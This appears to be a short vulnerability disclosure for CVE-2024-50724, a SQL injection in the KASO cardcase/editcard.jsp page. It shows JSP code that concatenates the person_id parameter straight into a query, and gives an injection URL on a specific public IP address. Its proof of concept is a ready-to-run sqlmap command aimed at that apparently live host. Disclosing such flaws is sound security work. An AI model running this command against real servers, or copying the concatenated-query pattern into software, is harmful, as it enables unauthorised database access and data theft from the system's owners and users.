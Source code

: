 # KASO cardcase/editcard.jsp Sql Injection

CVE-ID: CVE-2024-50724

VERSION: v9.0

Exploit Author: hndky

Vulnerability Discovery Unit: 河南电力




Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/294134a2-6cda-4215-ad39-becef72da11f)




